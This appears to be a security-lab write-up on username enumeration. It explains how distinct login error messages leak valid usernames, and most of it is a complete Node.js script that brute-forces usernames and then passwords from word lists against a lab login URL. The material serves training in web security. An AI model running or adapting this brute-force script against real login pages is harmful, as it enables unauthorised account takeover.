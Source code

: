 # 1 - Username Enumeration

### Notes

The app returns "Invalid username" or "Incorrect password" rather than a generic authentication failure message, allowing a valid username to be brute forced from a word list, followed by the valid password for this username. The trickiest part about this challenge is writing the script, but it is easy to solve using Burp Suite's "Intruder".

### Scripted Solution

```javascript
const fs = require('fs')
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Loops through provided `wordList` by `step`, calling the `axiosCallback` and
 * checking result against the `matchCallback`.
 */
async function bruteForce(wordList, step, axiosCallback, matchCallback) {
  const wordListLength = wordList.length
  let from = 0,
    to = step
  let resultsAccumulator = []

  while (true) {
    const wordsSlice = wordList.slice(from, to)

    await Promise.all(wordsSlice.map((item) => axiosCallback(item))).then(
      (results) => {
        results.forEach((result) => {
          const match = matchCallback(result)
          if (match) resultsAccumulator.push(match)
        })
      }
    )

    if (to >= wordListLength) break

    from = to
    to = to + step > wordListLength ? wordListLength : to + step
  }

  return resultsAccumulator
}

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL
  const loginUrl = `${labUrl}/login`
  const usernamesTxt = fs.readFileSync(`./usernames.txt`, 'utf8')
  const usernames = usernamesTxt.split('\n')
  const passwordsTxt = fs.readFileSync(`./passwords.txt`, 'utf8')
  const passwords = passwordsTxt.split('\n')

  console.log('Brute forcing valid usernames...')
  const validUsernames = await bruteForce(
    usernames,
    10,
    (item) =>
      axios
        .post(loginUrl, `username=${item}&password=password`)
        .then((res) => ({ username: item, res: res.data })),
    (result) => {
      const { username, res } = result
      if (!res.match(/Invalid username/)) return username
      return false
    }
  )
  console.log(validUsernames)

  console.log(
    `Brute forcing valid password for username: ${validUsernames[0]}.`
  )
  const validPasswords = await bruteForce(
    passwords,
    10,
    (item) =>
      axios
        .post(loginUrl, `username=${validUsernames[0]}&password=${item}`)
        .then((res) => ({ password: item, res: res.data })),
    (result) => {
      const { password, res } = result
      if (!res.match(/Incorrect password/)) return password
      return false
    }
  )
  console.log(validPasswords)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
va
```
